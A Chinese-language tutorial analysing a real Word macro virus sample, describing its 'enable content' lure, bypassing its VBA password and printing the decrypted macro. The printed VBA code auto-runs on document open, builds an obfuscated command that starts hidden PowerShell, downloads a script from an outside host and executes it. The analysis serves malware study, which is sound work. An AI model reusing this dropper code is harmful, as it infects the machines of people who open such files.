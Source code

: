 # 宏病毒实例分析

demo2.doc为例，实例分析宏病毒，demo2是一个真实的宏病毒，请在虚拟机中分析。

打开demo2.doc，发现弹出了“安全警告”，文本中内容提示用户要点击“启用内容”才能看到文件内容，实际上这里是社会工程学攻击，用户单击“启用内容”就会运行宏，并感染病毒：

 ALT+F11打开VBA编辑器，查看宏代码。但是你会发现，此时工程里没有数据，这是因为我们没有单击“启用内容”，VBA工程还没有加载。单击“启用内容”，这个时候宏就已经运行了，再次查看VBA编辑器，弹出了要求输入密码的对话框。

![](宏病毒基础入门/5.png)

除了输入密码，我们不能看到其他信息，看来这段宏被加密了，接下来我们就要祭出神器VBA_Password_Bypasser进行解密了。关闭demo2.doc ，使用VBA_Password_Bypasser重新打开demo2.doc，再次打开VBA编辑器查看宏代码，宏代码一览无余

```vb
Private Sub Document_Open()
Dim CGJKIYRSDGHJHGFFG As String
CGJKIYRSDGHJHGFFG = "cmd /K " + "pow" + "eR" & "sh" + "ell.e" + "x" + "e -WindowStyle hiddeN -ExecuTionPolicy BypasS -noprofile (New-Object System.Net.WebClient).DownloadFile('http://skycpa.in/file.php','%TEMP%\Y.ps1'); poWerShEll.exe -WindowStyle hiddeN -ExecutionPolicy Bypass -noprofile -file %TEMP%\Y.ps1"
Shell CGJKIYRSDGHJHGFFG, 0
MsgBox ("Unreferenced library required")
End Sub
```

这段宏首先拼接了一段字符串CGJKIYRSDGHJHGFFG，这段字符串是一段命令，接下来就调用Shell() ，执行这段命令。但是CGJKIYRSDGHJHGFFG的内容经过混淆，

我们没办法一眼看出执行了什么命令，我们可以改造宏代码，使用Msgbox将CGJKIYRSDGHJHGFFG这段命令打印出来

![](宏病毒基础入门/6.png)
